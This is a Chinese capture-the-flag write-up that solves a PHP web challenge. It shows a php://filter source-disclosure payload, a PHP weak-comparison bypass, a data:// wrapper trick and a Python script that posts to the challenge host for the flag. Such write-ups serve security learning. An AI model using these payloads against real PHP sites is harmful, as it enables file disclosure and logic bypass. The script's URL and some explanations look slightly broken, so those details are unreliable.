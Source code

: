 ```php+HTML
}
?>


```

**payload:/index.php?file=php://filter/emoji/read=convert.base64-encode/resource=findme**

fineme.php

```php
<?php
    $flag = $_ENV['FLAG'];

    $lucky = $_GET['luckynumber'];
    $context = $_POST['context'];

    if(isset($lucky)&&isset($context)){
        if(is_numeric($lucky)){
            die("Not a number");
        }elseif($lucky == 777){
            if(file_get_contents($context,'r') === "humanoid"){
                    echo "Congratulations, the flag is: ".$flag;
            }else{
                die("Try again");
            }
        }
    }else{
        return;
    }

```

因此我们需要传入两个参数,令lucky非数字且在PHP弱类型比较中与777相等;令file_get_contents($context,'r')的值为"humanoid",我们需要用到data://伪协议伪造从文件读取数据.`data://text/plain;base64,aHVtYW5vaWQ=`#aHVtYW5vaWQ=是humanoid的base64编码

使用python进行双重传参.

```python
import requests
# 构造伪协议字符串，以伪造 "humanoid" 字符串
fake_context = "data://text/plain;base64,aHVtYW5vaWQ="

# 定义POST请求参数
post_params = {'context': fake_context}

# 目标URL
url = 'http://1.container.jingsai.apicon.cn:32212/findme.php/luckynumber=777a'
# 发送POST请求
post_response = requests.post(url, data=post_params)
print('POST:', post_response.text)
```

注意,这里用到了php弱类型比较."777"==777 777a==777均符合要求,但"777"不满足payload,会使条件不满足.
